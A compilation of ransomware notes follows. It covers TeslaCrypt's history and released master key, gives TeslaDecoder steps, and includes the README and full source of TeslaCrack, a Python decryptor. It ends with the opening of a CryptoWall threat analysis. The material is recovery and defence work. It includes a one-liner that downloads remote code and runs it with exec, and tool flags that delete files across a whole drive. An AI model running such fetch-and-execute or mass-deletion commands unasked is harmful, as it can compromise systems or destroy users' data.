<br/>

-----

<br/>

#### ○ TeslaCrypt (2016)

TeslaCrypt was a ransomware trojan.
It is now defunct, and its master key was released by the developers.
In its early forms, TeslaCrypt targeted game-play data for specific computer games.
Newer variants of the malware also affect other file types.
In its original, game-player campaign, upon infection the malware searched for 185 file extensions related to 40 different games, which include the Call of Duty series, World of Warcraft, Minecraft and World of Tanks, and encrypted such files.
The files targeted involve the save data, player profiles, custom maps and game mods stored on the victim's hard drives.
Newer variants of TeslaCrypt were not focused on computer games alone but also encrypted Word, PDF, JPEG and other files.
In all cases, the victim would then be prompted to pay a ransom of $500 worth of bitcoins in order to obtain the key to decrypt the files.
Although resembling CryptoLocker in form and function, Teslacrypt shares no code with CryptoLocker and was developed independently.
The malware infected computers via the Angler Adobe Flash exploit.
Even though the ransomware claimed TeslaCrypt used asymmetric encryption, researchers from Cisco's Talos Group found that symmetric encryption was used and developed a decryption tool for it.
This "deficiency" was changed in version 2.0, rendering it impossible to decrypt files affected by TeslaCrypt-2.0.
By November 2015, security researchers from Kaspersky had been quietly circulating that there was a new weakness in version 2.0, but carefully keeping that knowledge away from the malware developer so that they could not fix the flaw.
As of January 2016, a new version 3.0 was discovered that had fixed the flaw.
A full behavior report, which shows BehaviorGraphs and ExecutionGraphs was published by JoeSecurity.


<br/>

-------

<br/>

##### ■ TeslaCrypt shuts down and Releases Master Decryption Key | May 18, 2016

In surprising end to TeslaCrypt, the developers shut down their ransomware and released the master decryption key. Over the past few weeks, an analyst for ESET had noticed that the developers of TeslaCrypt have been slowly closing their doors, while their previous distributors have been switching over to distributing the CryptXXX ransomware.  

When the ESET researcher realized what was happening, he took a shot in the dark and used the support chat on the Tesla payment site to ask if they would release the master TeslaCrypt decryption key. To his surprise and pleasure, they agreed to do so and posted it on their now defunct payment site.


Now that the decryption key has been made publicly available, this allowed TeslaCrypt expert BloodDolly to update TeslaDecoder to version 1.0 so that it can decrypt version 3.0 and version 4.0 of TeslaCrypt encrypted files.  This means that anyone who has TeslasCrypt encrypted files with the .xxx, .ttt, .micro, .mp3, or encrypted files without an extension can now decrypt their files for free!

With the release of the master decryption key for TeslaCrypt, victims can now download TeslaDecoder to decrypt files encrypted by TeslaCrypt.  Simply use the download link below and save TeslaDecoder to your desktop.

TelaDecoder is downloaded as a zip file, so you need to extract it and then double-click on the TeslaDecoder.exe file.  This will launch TeslaDecoder as shown below.


Now click on the **Set** **Key** button and select the extension used for your encrypted files.


If your encrypted files have the same name as the original files, select the option.

Once you have selected your encrypted file extension, click on the **Set Key** button as shown in the image below.


You will now be at the main screen with the correct decryption key loaded into the decryptor as shown below.


Now that the correct decryption key is loaded into the decryptor, you can either decrypt a certain folder or have it scan your entire drive.  To decrypt only a specified folder, click on the Decrypt folder button. To decrypt the whole computer, click on the Decrypt all button.  When you click on this button, TeslaDecoder will ask if you want to overwrite your files with the unencrypted version. To be safe, I always suggest that you do not do this in case something fails with the decryption.

When TeslaDecoder is done decrypting your files, it will show a summary in the main window.


<br/>

-------

<br/>

##### ■ https://github.com/Googulator/TeslaCrack

**TeslaCrack - decrypt files crypted by TeslaCrypt ransomware**

[](https://camo.githubusercontent.com/af04b33e362154270c947aef7907622e4459c44f/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f707974686f6e2d322e37253242253243253230332e342532422d626c75652e737667) [ ](https://flattr.com/profile/Googulator)[](https://blockchain.info/address/1AdcYneBgky3yMP7d2snQ5wznbWKzULezj)

| Date:   | 2016-01-22                               |
| ------- | ---------------------------------------- |
| Source: | https://github.com/Googulator/TeslaCrack |
| Author: | Googulator                               |

This is a tool for decrypting files that were crypted with the latest version (variously known as "v8" or "v2.2.0") of the **TeslaCrypt ransomware**. This new version can be recognized from the extensions `.vvv, .ccc, .zzz, .aaa, .abc` added to the names of you original files, and/or the filenames of the ransom notes being `Howto_RESTORE_FILES.txt`.

The tool should also work against other recent versions of TeslaCrypt - for ancient versions, use *tesladecrypt* or *TeslaDecoder* together with the Bitcoin-based key reconstructor instead (`unfactor_bitcoin.py`).

<br/>

**Table of Contents**

- **[Overview](https://github.com/Googulator/TeslaCrack/blob/master/README.rst#overview)**
- **Installation**
  - **[Install Python](https://github.com/Googulator/TeslaCrack/blob/master/README.rst#install-python)**
  - **[Install TeslaCrack](https://github.com/Googulator/TeslaCrack/blob/master/README.rst#install-teslacrack)**
- **[How to decrypt your files](https://github.com/Googulator/TeslaCrack/blob/master/README.rst#how-to-decrypt-your-files)**
- **[And now, for some controversy...**](https://github.com/Googulator/TeslaCrack/blob/master/README.rst#and-now-for-some-controversy)

<br/>

**[Overview](https://github.com/Googulator/TeslaCrack/blob/master/README.rst#table-of-contents)**

We recapitulate [how TeslaCrypt ransomware works and explain the weakness](http://www.bleepingcomputer.com/news/security/teslacrypt-decrypted-flaw-in-teslacrypt-allows-victims-to-recover-their-files/) that is relevant for this cracking tool:

1. *TeslaCrypt* creates a symmetrical AES-session-key that will be used to encrypt your files,
2. it then asymmetrically ECDH-encrypts that AES-key and transmits the private-ECDH-key to the operators of the ransomware (but that is irrelevant here), and finally
3. it starts crypting your files one-by-one, attaching the encrypted-AES-key into their header.

- Multiple AES-keys are generated if you interrupt the ransomware while it crypts your files (i.e. reboot).

*TeslaCrack* implements (primarily) an integer factorization attack against the asymmetric scheme (breaking the encrypted-AES-key). The actual factorization is not implemented within *TeslaCrack*, instead, it extracts the numbers to be factored, that you have to feed them into 3rd party factoring tools, such as [YAFU or msieve](https://www.google.com/search?q=msieve+factorization).

The files performing most of the job are these two:

- `teslacrack.py`: parses the headers from the tesla-files, extracts their encrypted-AES-keys, and if their corresponding decrypted-key has already been reconstructed earlier (by following the steps described below), and decrypts files.
- `unfactor.py`: reconstructs an AES-key from a factorized(externally) encrypted-AES-key.

<br/>

**[Installation](https://github.com/Googulator/TeslaCrack/blob/master/README.rst#table-of-contents)**

You need a working Python 2.7 or Python-3.4+ environment, **preferably 64-bit** (if supported by your OS). A 32-bit Python can also work, but it will be significantly slower

<br/>

**[Install Python](https://github.com/Googulator/TeslaCrack/blob/master/README.rst#table-of-contents)**

In *Windows*, the following 1 + 2 alternative have been tested:

- The ["official" distributions](https://www.python.org/), which **require admin-rights to install and to ``pip``-install the necessary packages.** Note the official site by default may offer you a 32-bit version - choose explicitly the 64-bit version. Check also the option for adding Python into your `PATH`.
- The portable [WinPython](https://winpython.github.io/) distributions. It has been tested both with: [WinPython-3.4 "slim"](http://sourceforge.net/projects/winpython/files/WinPython_3.4/3.4.3.7/) and [WinPython-2.7](http://sourceforge.net/projects/winpython/files/WinPython_2.7/2.7.10.3/). Notice that by default they do not modify your `PATH` so you **must run all commands from the included command-prompt executable**. And although they **do not require admin-rights to install**, you most probably **need admin-rights** when running teslacrack.py, if the files to decrypt originate from a different user.

<br/>

**[Install TeslaCrack](https://github.com/Googulator/TeslaCrack/blob/master/README.rst#table-of-contents)**

1. At a command-prompt with python enabled (and with admin-rights in the "official" distribution), execute the following commands:

   ```
   pip install pycryptodome
   pip install ecdsa                REM optional, needed only for unfactor_ecdsa.py
   pip install pybitcoin            REM optional, needed only for unfactor_bitcoin.py
   ```

   - If you get an error like `'pip' is not recognized as an internal or external command ...` then you may execute the following Python-2 code and re-run the commands above:

     ```
     python -c "import urllib2; exec urllib2.urlopen('https://bootstrap.pypa.io/get-pip.py').read()"
     ```

2. In addition, you need a program for factoring large numbers.

   For this purpose, I recommend using Msieve (e.g. http://sourceforge.net/projects/msieve/) and the `factmsieve.py` wrapper. Run the factorization on a fast computer, as it can take a lot of processing power. On a modern dual-core machine, most encrypted AES-keys can be factorized in a few hours, with some unlucky keys possibly taking up to a week.

<br/>

**[How to decrypt your files](https://github.com/Googulator/TeslaCrack/blob/master/README.rst#table-of-contents)**

Note that commands below assume that your *working folder* is the one containing `unfactor.py` and `teslacrack.py` files.

1. Collect a "crypted" file from the attacked machine in your *working folder*. Choose a file with known magic-bytes - `unfactor.py` has been pre-configured with some common data-formats to choose from:

   - *pdf* & *word-doc* files,
   - images and sounds (*jpg, png, gif, mp3*), and
   - archive formats: *gzip, bz2, 7z, rar* and of course *zip*, which includes all LibreOffice and newer Microsoft *docs/xlsx* & *ODF* documents.

   Tip

   To view or extend the supported formats, edit `unfactor.py` and append a new mapping into `known_file_magics` dictionary. Note that in *python-3*, bytes are given like that: `b'\xff\xd8'`.

2. If the your crypted files do not have one of the known extensions, `.vvv, .ccc, .zzz, .aaa, .abc`, edit `teslacrack.py` to append it into `tesla_extensions` string-list.

   Note

   The extensions '.xxx', '.micro', '.mp3' and '.ttt' have been reported for new variants of TeslaCrypt (3.0 and 4.0), and this tool cannot decrypt them, anyway. Please use TeslaDecoder instead, with 440A241DD80FCC5664E861989DB716E08CE627D8D40C7EA360AE855C727A49EE as the key.

3. Enter this command in your working folder to process your crypted file (notice the `.` at the end,; you may use the name of your crypted file instead):

   ```
   python teslacrack.py -v .
   ```

   It will print out two hex numbers. **The first number is your encrypted-AES-key**.

   - If you get an error message, make sure that you have Python and *pycryptodome* installed (see instructions above).

4. Convert your hexadecimal AES-key to decimal, e.g. in python use `int('859091953186ed67326657c9c42efa88d770fc2512a9e37ab811b4c919a82c8aeec9b6ebb5e6effd559aedcff2d49018d268950eccd0e7603b2e22ea214ff365', 16)`, and search [factordb.com](http://factordb.com/) for this number. If you are lucky, it may have been already factored, and you can skip the next step :-)

5. Factor the AES key printed by `teslacrack.py` above:

   - Using *msieve*:

     ```
     msieve -v -e 0x\<encrypted-AES key from teslacrack.py>
     ```

     The `-e` switch is needed to do a "deep" elliptic curve search, which speeds up *msieve* for numbers with many factors (by default, *msieve* is optimized for semiprimes such as RSA moduli)

   - Alternatively, you can use *YAFU*, which is multithreaded, but tends to crash often (at least for me) If you use *YAFU*, make sure to run it from command line using the `-threads` option!

   - For numbers with few factors (where `-e` is ineffective, and *msieve/YAFU* run slow), use `factmsieve.py` (downloaded optionally above), which is more complicated, but also faster, multithreaded, and doesn't tend to crash.

6. To reconstruct the AES-key that has crypted your files, run:

   ```
   python unfactor.py  <crypted file>  <primes from previous step, separated by spaces>
   ```

   It will reconstruct and print any decrypted AES-keys candidates (usually just one).

   - You may use `unfactor_ecdsa.py` to recover your keys - this is slower, and requires the *ecdsa* Python module to be installed; however, unlike `unfactor.py`, it can also reconstruct Bitcoin private-keys (to be used with TeslaDecoder), not just AES ones. Also, `unfactor_ecdsa.py` is guaranteed to always yield only correct keys, and can recover keys even from files without known magic numbers, while `unfactor.py` is filetype-dependent, and may sometimes report false positive keys. The syntax for the two scripts is the same, simply add `_ecdsa` to the name of the script.
   - For very old TeslaCrypt infections, a third key reconstructor is provided, `unfactor_bitcoin.py`, which uses the Bitcoin ransom address instead of a sample file. Both the Bitcoin address and the public key can be obtained from the recovery file in the affected machine's Documents folder for such old infections. The Bitcoin address is the first line of the file, while the public key (which needs to be factored) is the third line. The syntax is like `unfactor.py`, but use the Bitcoin address in place of a filename. Note that `teslacrack.py` can't decode the file format used by old TeslaCrypt, so you will need to perform the actual decryption using *TeslaDecoder*.
   - Archives, such as *zip* files and *docx/xlsx/odf* documents may fail to produce a key, when irrelevant bytes have been prepended - this is allowed by their format. Repeate this step with another type of file.

7. Edit `teslacrack.py` to add a new key-pair into the `known_AES_key_pairs` dictionary, like that:

   ```
   <encrypted-AES-key>: <1st decrypted-AES-key candidate>,
   ```

8. Repeat step 3. A decrypted file should now appear next to the crypted one (`.vvv` or `.ccc`, etc) - verify that the contents of the decrypted-file do make sense.

   - If not, redo step 7, replacing every time a new candidate decrypted AES-key in the pair.

9. To decrypt all of your files run from an administrator command prompt:

   ```
   python teslacrack.py --progress D:\\
   ```

   - In some cases you may start receiving error-messages, saying `"Unknown key in file: some/file"`. This means that some of your files have been crypted with different AES-keys (i.e. the ransomware had been restarted due to a reboot). `teslacrack.py` will print at the end any new encrypted AES-key(s) encountered - repeat the procedure from step 4 for all newly discovered key(s) :-(

   - `teslacrack.py` accepts an optional `--delete` and `--delete-old` parameters, which will delete the crypted-files of any cleartext file it successfully generates (or already has generated, for the 2nd option). Before using this option, make sure that your files have been indeed decrypted correctly!

   - By skipping this time the `-v` option (verbose logging) you avoid listing every file being visited - only failures and totals are reported.

   - Use `--overwrite` or the more "selective" `--fix` option to re-generate all cleartext files or just those that had previously failed to decrypt, respectively. They both accept an optional *file-extension* to construct the backup filename. Note that by default `--overwrite` does not make backups, while the `-fix` option, does.

   - If you are going to decrypt 1000s of file (i.e `D:\\`), it's worth using the `--precount` option; it will consume some initial time to pre-calculate directories to be visited, and then a progress-indicator will be printed while decrypting.

   - Finally, You can "dry-run" all of the above (decrypting, deletion and backup) with the `-n` option.

   - Read decriptions for available options with:

     ```
     python teslacrack.py --help
     ```

<br/>

**[And now, for some controversy...](https://github.com/Googulator/TeslaCrack/blob/master/README.rst#table-of-contents)**

[](https://cloud.githubusercontent.com/assets/16308406/11841119/45709ea2-a3fb-11e5-9df6-8dcc43a6812e.png)

[](https://cloud.githubusercontent.com/assets/16308406/11841120/4574e138-a3fb-11e5-981b-5b30e7f8bd84.png)

The same day this happened, Kaspersky released this article: https://blog.kaspersky.com/teslacrypt-strikes-again/10860/

[ ](https://flattr.com/profile/Googulator)[](https://blockchain.info/address/1AdcYneBgky3yMP7d2snQ5wznbWKzULezj)

<br/>

<br/>

**[TeslaCrack](https://github.com/Googulator/TeslaCrack)/teslacrack.py**

 ```python
"""
TeslaCrack - decryptor for the TeslaCrypt ransomware
by Googulator
USAGE: teslacrack.py [-h] [-v] [-n] [--delete] [--delete-old] [--progress]
                     [--version] [--fix [<.ext>] | --overwrite [<.ext>]]
                     [fpaths [fpaths ...]]
TeslaCrack - decryptor for the TeslaCrypt ransomware by Googulator
positional arguments:
  fpaths                Decrypt but don't Write/Delete files, just report
                        actions performed [default: ['.']].
optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Verbosely log(DEBUG) all actions on files decrypted.
  -n, --dry-run         Decrypt but don't Write/Delete files, just report
                        actions performed [default: False].
  --delete              Delete crypted-files after decrypting them.
  --delete-old          Delete crypted even if decrypted-file created during a
                        previous run [default: False].
  --progress            Before start decrypting files, pre-scan all dirs, to
                        provide progress-indicator [default: False].
  --version             show program's version number and exit
  --fix [<.ext>]        Re-decrypt tesla-files and overwrite crypted-
                        counterparts if they have unexpected size. By default,
                        backs-up existing files with '.BAK' extension. Specify
                        empty('') extension for no backup (eg. `--fix=`)
                        WARNING: You may LOSE FILES that have changed due to
                        regular use, such as, configuration-files and
                        mailboxes! [default: False].
  --overwrite [<.ext>]  Re-decrypt ALL tesla-files, overwritting all crypted-
                        counterparts. Optionally creates backups with the
                        given extension. WARNING: You may LOSE FILES that
                        have changed due to regular use, such as,
                        configuration-files and mailboxes! [default: False].
EXAMPLES:
   python teslacrack -v                      ## Decrypt current-folder, logging verbosely.
   python teslacrack .  bar\cob.xlsx         ## Decrypt current-folder & file
   python teslacrack --delete-old C:\\       ## WILL DELETE ALL `.vvv` files on disk!!!
   python teslacrack --progress -n -v  C:\\  ## Just to check what actions will perform.
NOTES:
This script requires pycrypto to be installed.
To use, factor the 2nd hex string found in the headers of affected files using msieve.
The AES-256 key will be one of the factors, typically not a prime - experiment to see which one works.
Insert the hex string & AES key below, under known_AES_key_pairs, then run on affected directory.
If an unknown key is reported, crack that one using msieve, then add to known_AES_key_pairs and re-run.
Enjoy! ;)
"""

from __future__ import unicode_literals

import argparse
import logging
import os
import shutil
import struct
import sys
import time

from Crypto.Cipher import AES
import binascii


log = logging.getLogger('teslacrack')

## Add your (encrypted-AES-key: reconstructed-AES-key) pair(s) here,
#  like the examples below:
#
known_AES_key_pairs = {
    b'D4E0010A8EDA7AAAE8462FFE9562B29871B9DA186D98B5B15EC9F77803B60EAB12ADDF78CBD4D9314A0C31270CC8822DCC071D10193D1E612360B26582DAF124': 'ea685a3cdb780df212ebaa5003adc3e104063ebc259352c50988b7561ad134a5',
    b'9F2874FB536C0A6EF7B296416A262A8A722A38C82EBD637DB3B11232AE0102153C18837EFB4558E9E2DBFC1BB4BE799AE624ED717A234AFC5E2F8E2668C76B6C': 'cd0d0d54c4fdb7647c4db0956a3046c34e385b51d735d17c009d473e02842795',
    b'115DF08B0956AEDF0293EBA00CCD6793344D6590D234FE0DF2E679B7159E8DB05F960455F17CDDCE094420182484E73D4041C39531B5B8E753E562910561DE52': '1adc91333e8f6b59bbcfb33451d8a3a94d14b38415fa33c0f7fb695920d3618f',
    b'7097DDB2E5DD08950D18C263A41FF5700E7F2A01874B20F402680752268E43F4C5B7B26AF2642AE37BD64AB65B6426711A9DC44EA47FC220814E88009C90EA': '017b1647d4242bc67ce8a6aaec4d8b493f35519bd82775623d86182167148dd9',
    b'07E18921C536C112A14966D4EAAD01F10537F77984ADAAE398048F12685E2870CD1968FE3317319693DA16FFECF6A78EDBC325DDA2EE78A3F9DF8EEFD40299D9': '1b5c52aafcffda2e71001cf1880fe45cb93dea4c71328df595cb5eb882a3979f',
    b'10043D7DA5E5BDF7BF22928744246CC121DB50223E91AEEDDBF6DE23606711E3EF956F19CECFC380E58030B988177A268C402DDBC5B44A590DE8A06AA13EAF1D': 'af08733b6871edccf9bf12a0b36333eb20937a82ae7cf8d20cd6603017ea518d',
}

## Add more known extensions, e.g. '.xyz'.
#  Note that '.xxx', '.micro' and '.ttt' are crypted by a new variant
#  of teslacrypt (3.0).
tesla_extensions = ['.vvv', '.ccc',  '.zzz', '.aaa', '.abc']
tesla_magics = [b'\xde\xad\xbe\xef\x04', b'\x00\x00\x00\x00\x04']

## If i18n-filenames are destroyed, experiment with this.
#  e.g. 'UTF-8', 'iso-8859-9', 'CP437', 'CP1252'
filenames_encoding = sys.getfilesystemencoding()


unknown_keys = {}
unknown_btkeys = {}

PROGRESS_INTERVAL_SEC = 3 # Log stats every that many files processed.
_last_progress_time = 0#time.time()


_PY2 = sys.version_info[0] == 2


def lalign_key(key):
    while key[0] == b'\0':
        key = key[1:] + b'\0'
    return key

def fix_hex_key(hex_key):
    return lalign_key(binascii.unhexlify(hex_key))

def _decide_backup_ext(ext):
    """Strange logic here, see :func:`_argparse_ext_type()`."""
    if not ext or isinstance(ext, bool):
        ext = None
    return ext


def _needs_decrypt(fname, exp_size, fix, overwrite, stats):
    """Returns (file_exist?  should_decrypt?  what_backup_ext?)."""
    decrypted_exists = os.path.isfile(fname)
    if overwrite:
        should_decrypt = overwrite
    elif decrypted_exists:
        disk_size = os.stat(fname).st_size
        if disk_size != exp_size:
            log.warn("Bad(?) decrypted-file %r had unexpected size(disk_size(%i) != %i)! "
                    "\n  Will be overwritten: %s",
                    fname, disk_size, exp_size, bool(fix))
            stats.badexisting_nfiles += 1
            should_decrypt = fix
        else:
            should_decrypt = False
    else:
        should_decrypt = True
    return decrypted_exists, should_decrypt, _decide_backup_ext(should_decrypt)


def decrypt_file(opts, stats, crypted_fname):
    do_unlink = False
    try:
        with open(crypted_fname, "rb") as fin:
            header = fin.read(414)

            if header[:5] not in tesla_magics:
                log.info("File %r doesn't appear to be TeslaCrypted.", crypted_fname)
                stats.badheader_nfiles += 1
                return
            stats.crypted_nfiles += 1

            aes_crypted_key = header[0x108:0x188].rstrip(b'\0')
            aes_key = known_AES_key_pairs.get(aes_crypted_key)
            if not aes_key:
                if aes_crypted_key not in unknown_keys:
                    unknown_keys[aes_crypted_key] = crypted_fname
                btc_key = header[0x45:0xc5].rstrip(b'\0')
                if btc_key not in unknown_btkeys:
                    unknown_btkeys[btc_key] = crypted_fname
                log.warn("Unknown key: %s \n  in file: %s",
                        aes_crypted_key, crypted_fname)
                stats.unknown_nfiles += 1
                return


            size = struct.unpack('<I', header[0x19a:0x19e])[0]
            decrypted_fname = os.path.splitext(crypted_fname)[0]
            decrypted_exists, should_decrypt, backup_ext = _needs_decrypt(
                    decrypted_fname, size, opts.fix, opts.overwrite, stats)
            if should_decrypt:
                crypted_mtime = os.path.getmtime(crypted_fname)
                crypted_atime = os.path.getatime(crypted_fname)
                log.debug("decrypting%s%s%s: %s",
                        '(overwrite)' if decrypted_exists else '',
                        '(backup)' if decrypted_exists and backup_ext else '',
                        '(dry-run)' if opts.dry_run else '', crypted_fname)
                if decrypted_exists and backup_ext:
                    backup_fname = decrypted_fname + backup_ext
                    opts.dry_run or shutil.move(decrypted_fname, backup_fname)
                decryptor = AES.new(
                        fix_hex_key(aes_key),
                        AES.MODE_CBC, header[0x18a:0x19a])
                data = decryptor.decrypt(fin.read())[:size]
                if not opts.dry_run:
                    with open(decrypted_fname, 'wb') as fout:
                        fout.write(data)
                    os.utime(decrypted_fname,(crypted_atime,crypted_mtime))
                if opts.delete and not decrypted_exists or opts.delete_old:
                    do_unlink = True
                stats.decrypted_nfiles += 1
                stats.overwrite_nfiles += decrypted_exists
            else:
                log.debug("Skip %r, already decrypted.", crypted_fname)
                stats.skip_nfiles += 1
                if opts.delete_old:
                    do_unlink = True
    except Exception as e:
        stats.failed_nfiles += 1
        log.error("Error decrypting %r due to %r!  Please try again.",
                crypted_fname, e, exc_info=opts.verbose)

    if do_unlink:
        try:
            log.debug("Deleting%s: %s",
                    '(dry-run)' if opts.dry_run else '', crypted_fname)
            opts.dry_run or os.unlink(crypted_fname)
            stats.deleted_nfiles += 1
        except Exception as e:
            stats.failed_nfiles += 1
            log.warn("Error deleting %r due to %r!.",
                    crypted_fname, e, exc_info=opts.verbose)


def is_progess_time():
    global _last_progress_time
    if time.time() - _last_progress_time > PROGRESS_INTERVAL_SEC:
        _last_progress_time = time.time()
        return True


def traverse_fpaths(opts, stats):
    """Scan disk and decrypt tesla-files.
    :param: list fpaths:
            Start points to scan.
            Must be unicode, and on *Windows* '\\?\' prefixed.
    """
    def handle_bad_subdir(err):
        stats.noaccess_ndirs += 1
        log.error('%r: %s' % (err, err.filename))

    def scan_file(fname):
        if os.path.splitext(fname)[1] in tesla_extensions:
            stats.tesla_nfiles += 1
            decrypt_file(opts, stats, fname)

    for fpath in opts.fpaths:
        if os.path.isfile(fpath):
            scan_file(fpath)
        else:
            for dirpath, _, files in os.walk(fpath, onerror=handle_bad_subdir):
                stats.visited_ndirs += 1
                stats.scanned_nfiles += len(files)
                if is_progess_time():
                    log_stats(stats, dirpath)
                    log_unknown_keys()
                for f in files:
                    scan_file(os.path.join(dirpath, f))


def count_subdirs(opts, stats):
    n = 0
    log.info("+++Counting dirs...")
    for f in opts.fpaths:
        #f = upath(f) # Don't bother...
        for _ in os.walk(f):
            if is_progess_time():
                log.info("+++Counting dirs: %i...", n)
            n += 1
    return n


def log_unknown_keys():
    if unknown_keys:
        #assert len(unknown_keys) == len(unknown_btkeys, ( unknown_keys, unknown_btkeys)
        aes_keys = dict((fpath, key) for key, fpath in unknown_keys.items())
        btc_keys = dict((fpath, key) for key, fpath in unknown_btkeys.items())
        key_msgs = ["     AES: %r\n     BTC: %r\n    File: %r" %
                (aes_key.decode(), btc_keys.get(fpath, b'').decode(), fpath)
                for fpath, aes_key in aes_keys.items()]
        log.info("+++Unknown key(s) encountered: %i \n%s\n"
                "  Use `msieve` on AES-key(s), or `msieve` + `TeslaDecoder` on Bitcoin-key(s) to crack them!",
                len(unknown_keys), '\n'.join(key_msgs))


def log_stats(stats, fpath=''):
    if fpath:
        fpath = ': %r' % os.path.dirname(fpath)
    dir_progress = ''
    if stats.ndirs > 0:
        prcnt = 100 * stats.visited_ndirs / stats.ndirs
        dir_progress = ' of %i(%0.2f%%)' % (stats.ndirs, prcnt)
    log.info("+++Dir %5i%s%s"
            "\n       scanned: %7i"
            "\n  noAccessDirs: %7i"
            "\n      teslaExt:%7i"
            "\n       badheader:%7i"
            "\n         crypted:%7i"
            "\n         decrypted:%7i"
            "\n           skipped:%7i"
            "\n           unknown:%7i"
            "\n            failed:%7i"
            "\n\n       overwritten:%7i"
            "\n       badExisting:%7i"
            "\n           deleted:%7i"
        , stats.visited_ndirs, dir_progress, fpath, stats.scanned_nfiles,
        stats.noaccess_ndirs, stats.tesla_nfiles, stats.badheader_nfiles,
        stats.crypted_nfiles, stats.decrypted_nfiles, stats.skip_nfiles,
        stats.unknown_nfiles, stats.failed_nfiles, stats.overwrite_nfiles,
        stats.badexisting_nfiles, stats.deleted_nfiles)

def _path_to_ulong(path):
    """Support Long Unicode paths and handle `C: --> C:\<current-dir>` on *Windows*."""
    win_prefix = '\\\\?\\'
    if _PY2:
        try:
            path = unicode(path, filenames_encoding)  # @UndefinedVariable
        except:
            pass
    if os.name == 'nt' or sys.platform == 'cygwin':  ## But cygwin is missing cryptodome lib.
        if path.endswith(':'): ## Avoid Windows's per-drive "remembered" cwd.
            path += '\\'
        if not path.startswith(win_prefix):
            path = win_prefix + os.path.abspath(path)
    return path


def _argparse_ext_type(ext):
    ext = ext.strip()
    if ext == '': # User wanted option enabled, but without .ext.
        ext = True
    elif not ext.startswith('.'):
        raise argparse.ArgumentTypeError(
                "Extension %r must start with a dot(`.`) or '' for None!" % ext)
    return ext


def _parse_args(args):
    doclines = __doc__.split('\n')
    ap = argparse.ArgumentParser(description='\n'.join(doclines[:4]),
            epilog='\n'.join(doclines[-12:]))
    ap.add_argument('-v', '--verbose', action='store_true',
            help="Verbosely log(DEBUG) all actions on files decrypted.")
    ap.add_argument('-n', '--dry-run', action='store_true',
            help="Decrypt but don't Write/Delete files, just report actions performed "
            "[default: %(default)r].")
    xgroup_delete = ap.add_mutually_exclusive_group()
    xgroup_delete.add_argument('--delete', action='store_true',
            help="Delete crypted-files after decrypting them.")
    xgroup_delete.add_argument('--delete-old', action='store_true',
            help="Delete crypted even if decrypted-file created during a previous run "
            "[default: %(default)r].")
    ap.add_argument('--progress', action='store_true',
            help="Before start decrypting files, pre-scan all dirs, to provide progress-indicator "
            "[default: %(default)r].")
    ap.add_argument('fpaths', nargs='*', default=['.'],
            help="Decrypt but don't Write/Delete files, just report actions performed "
            "[default: %(default)r].")
    ap.add_argument('--version', action='version', version='%(prog)s 2.0')
    xgroup_overwrite = ap.add_mutually_exclusive_group()
    xgroup_overwrite.add_argument('--fix', nargs='?',
            type=_argparse_ext_type, metavar='<.ext>', default=False, const='.BAK',
            help="Re-decrypt tesla-files and overwrite crypted-counterparts if they have unexpected size. "
            "By default, backs-up existing files with '%(const)s' extension. "
            "Specify empty('') extension for no backup (eg. `--fix=`) "
            "WARNING: You may LOSE FILES that have changed due to regular use, "
            "such as, configuration-files and mailboxes! "
            "[default: %(default)s]. ")
    xgroup_overwrite.add_argument('--overwrite', nargs='?',
            type=_argparse_ext_type, metavar='<.ext>', default=False, const=True,
            help="Re-decrypt ALL tesla-files, overwritting all crypted-counterparts. "
            "Optionally creates backups with the given extension. "
            "WARNING: You may LOSE FILES that have changed due to regular use, "
            "such as, configuration-files and mailboxes! "
            "[default: %(default)s]. ")
    return ap.parse_args(args)


def teslacrack(opts):
    opts.fpaths = [_path_to_ulong(f) for f in opts.fpaths]

    stats = argparse.Namespace(ndirs = -1,
            visited_ndirs=0, scanned_nfiles=0, noaccess_ndirs=0,
            tesla_nfiles=0, crypted_nfiles=0, decrypted_nfiles=0, badheader_nfiles=0,
            skip_nfiles=0, unknown_nfiles=0, failed_nfiles=0, deleted_nfiles=0,
            overwrite_nfiles=0, badexisting_nfiles=0)

    if opts.progress:
        stats.ndirs = count_subdirs(opts, stats)
    traverse_fpaths(opts, stats)

    log_unknown_keys()
    log_stats(stats)

    return stats

def main(*args):
    """Parse args, setup logging and delegate to :func:`teslacrack()`."""
    if not args:
        args = sys.argv
    opts = _parse_args(args[1:])

    log_level = logging.DEBUG if opts.verbose else logging.INFO
    frmt = "%(asctime)-15s:%(levelname)3.3s: %(message)s"
    logging.basicConfig(level=log_level, format=frmt)
    log.debug('Options: %s', opts)
    teslacrack(opts)

if __name__=='__main__':
    main()
 ```

<br/>

-----

<br/>

#### ○ CryptoWall (2014)

CryptoWall Ransomware Threat Analysis | WEDNESDAY, AUGUST 27, 2014

BY: DELL SECUREWORKS COUNTER THREAT UNIT THREAT INTELLIGENCE

In late February 2014, the Dell SecureWorks Counter Threat Unit™ (CTU™) research team analyzed a family of file-encrypting ransomware being actively distributed on the Internet. Although this ransomware, now known as CryptoWall, became well-known in the first quarter of 2014, it has been distributed since at least early November 2013. CTU researchers consider CryptoWall to be the largest and most destructive ransomware threat on the Internet as of this publication, and they expect this threat to continue growing.

<br/>

**Background**

After the emergence of the infamous CryptoLocker ransomware in September 2013, CTU researchers observed an increasing number of ransomware families that destroyed data in addition to demanding payment from victims. While similar threats have existed for years, this tactic did not become widespread until CryptoLocker's considerable success. Traditionally, ransomware disabled victims' access to their computers through non-destructive means until the victims paid for the computers' release.

Early CryptoWall variants closely mimicked both the behavior and appearance of the genuine CryptoLocker (see Figure 1). The exact infection vector of these early infections is not known as of this publication, but anecdotal reports from victims suggest the malware arrived as an email attachment or drive-by download. Evidence collected by CTU researchers in the first several days of the February 2014 campaign showed at least several thousand global infections.


As illustrated by a sample uploaded to the VirusTotal analysis service, CryptoWall has had multiple names. CTU researchers called early variants "CryptoClone" due to a lack of a unique name offered by the threat actors. In mid-March 2014, the authors revealed that the true name of this malware was CryptoDefense. In early May 2014, the malware's name was again changed to CryptoWall.

While neither the malware nor infrastructure of CryptoWall is as sophisticated as that of CryptoLocker, the threat actors have demonstrated both longevity and proficiency in distribution. Similarities between CryptoWall samples and the Tobfy family of traditional ransomware suggest that the same threat actors may be responsible for both families, or that the threat actors behind both families are related.

<br/>

**Infection**

